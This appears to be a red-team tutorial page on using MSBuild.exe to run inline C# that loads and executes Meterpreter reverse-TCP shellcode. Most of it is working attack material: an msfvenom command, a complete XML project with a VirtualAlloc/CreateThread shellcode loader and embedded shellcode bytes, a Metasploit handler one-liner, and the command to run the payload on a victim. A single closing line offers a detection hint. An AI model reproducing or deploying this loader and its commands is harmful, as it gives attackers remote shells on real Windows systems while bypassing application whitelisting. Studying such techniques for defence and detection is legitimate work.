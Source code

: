 ```yaml
---
layout: post
title: "2024-06-18-using msbuild to execute shellcode in c"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /using-msbuild-to-execute-shellcode-in-c/
---
```


# Using MSBuild to Execute Shellcode in C\#

It's possible to use a native windows binary MSBuild.exe to compile and execute inline C# code stored in an xml as discovered by [Casey Smith](https://twitter.com/subTee).

## Execution

Generate meterpreter shellode in c#:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f csharp
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-04 20-53-21.png>)

Insert shellcode into the shellcode variable in linne 46:

{% code title="bad.xml" %}
```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
		using Microsoft.Build.Framework;
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask
		{         
		  private static UInt32 MEM_COMMIT = 0x1000;          
		  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
		  [DllImport("kernel32")]
		    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
		    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
		  [DllImport("kernel32")]
		    private static extern IntPtr CreateThread(            
		    UInt32 lpThreadAttributes,
		    UInt32 dwStackSize,
		    UInt32 lpStartAddress,
		    IntPtr param,
		    UInt32 dwCreationFlags,
		    ref UInt32 lpThreadId           
		    );
		  [DllImport("kernel32")]
		    private static extern UInt32 WaitForSingleObject(           
		    IntPtr hHandle,
		    UInt32 dwMilliseconds
		    );          
		  public override bool Execute()
		  {
			//replace with your own shellcode
		    byte[] shellcode = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x00,0x00,0x05,0x68,0x02,0x00,0x01,0xbb,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
		      
		      UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
			MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
		      IntPtr hThread = IntPtr.Zero;
		      UInt32 threadId = 0;
		      IntPtr pinfo = IntPtr.Zero;
		      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
		      WaitForSingleObject(hThread, 0xFFFFFFFF);
		      return true;
		  } 
		}     
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-04 20-54-14.png>)

Spin up a handler in metasploit to catch your shell:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Build and execute malicious payload on the victim system using MSBuild:

{% code title="attacker@victim" %}
```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\bad\bad.xml
```
{% endcode %}

![](<../../.gitbook/assets/Peek 2019-04-04 20-57.gif>)

## Observation

Note that it's MSBuild.exe that will make the TCP connection to the attacker, so as a defender, you should think about hunting for TCP connections initiated by MSBuild.

## References

[https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17](https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17)

@spotheplanet
